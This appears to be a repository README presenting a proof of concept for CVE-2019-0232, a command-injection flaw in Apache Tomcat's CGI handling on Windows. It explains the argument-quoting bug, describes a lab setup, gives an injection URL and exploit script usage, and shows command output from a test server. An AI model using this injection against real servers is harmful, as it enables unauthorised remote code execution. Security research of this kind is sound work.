 # CVE-2019-0232

We present a PoC for CVE-2019-0232

`Vulnerable versions`: Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 on Windows

When `enableCmdLineArguments` is `true` in CGI, there is a Remote Code Execution vulnerability due the way in which JRE passes command line arguments to Windows.

## The Vulnerability

This vulnerability is specific to Windows because of the way Windows handles command line arguments. Processes in Windows are created using a single command line parameter which is later parsed to get the separate arguments. 

The rules for quoting the command line arguments are vague, and hence user controlled arguments can be used to break the way Windows parses them and get code execution.

The interesting part is that when batch files (.cmd and .bat) are executed, they are excuted inside the `cmd.exe` encvironment. So, `file.bat` is converted to `C:\Windows\system32\cmd.exe /c "file.bat …"` and additional quoting is required to avoid command injection. But Java does not provide this quoting and hence breaking out of `file.bat` becomes easier and we can chain `evil.bat` using `file.bat&evil.bat`. Now, both `file.bat` and `evil.bat` will be executed by `cmd.bat` instead of only executing `file.bat`.  

So, The CGI request `http://localhost:8080/cgi/test.bat?&dir` is converted to `test.bat &dir` and `cmd.exe` interprets them as running `test.bat` and `dir` in conjunction.

## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

1. Enabling privileged context for CGI support

In `%CATALINA_HOME%\conf\context.xml` modify

`<Context>` to `<Context privileged="true">`

![privileged_context](./img/priviledge_context.png)

2. Enabling CGI and enabling `enableCmdLineArguments`

![cgi_servlet](./img/cgi_servlet.png)

3. Setting correct Servlet mapping

![servlet_mapping](./img/servlet_mapping.png)

4. Creating the `cgi` folder and adding a `test.bat` file.

Create a folder called `cgi` in `%CATALINA_HOME%\webapps\ROOT\WEB-INF\`

Create a file `test.bat` in 
`%CATALINA_HOME%\webapps\ROOT\WEB-INF\cgi\test.bat`

with contents (A simple hello world CGI script)

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

ROOT is the web application mapped to /, so we have added a CGI script at URI `/cgi/test.bat`

## Running PoC

A sample check can be to test:

`http://localhost:8080/cgi/test.bat?&dir`

This should give out the Directory contents of the hosted server. 

The PoC is given [here](https://github.com/dishankgoel/InterIIT-NetworkSecurity/blob/master/CVE-2019-0232/exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] -s PATH -c COMMAND host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -s PATH, --path PATH  Path of CGI script
  -c COMMAND, --command COMMAND
                        Command to run
```

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -s cgi/test.bat -c dir 3.140.7.1```
```
[*] Sending command
[*] Result:
Hello, World!
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Downloads\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\webapps\ROOT\WEB-INF\cgi

03/26/2021  01:05 PM    <DIR>          .
03/26/2021  01:05 PM    <DIR>          ..
03/26/2021  01:04 PM    <DIR>          %SystemDrive%
03/26/2021  11:59 AM                67 test.bat
               1 File(s)             67 bytes
               3 Dir(s)  14,794,878,976 bytes free
```
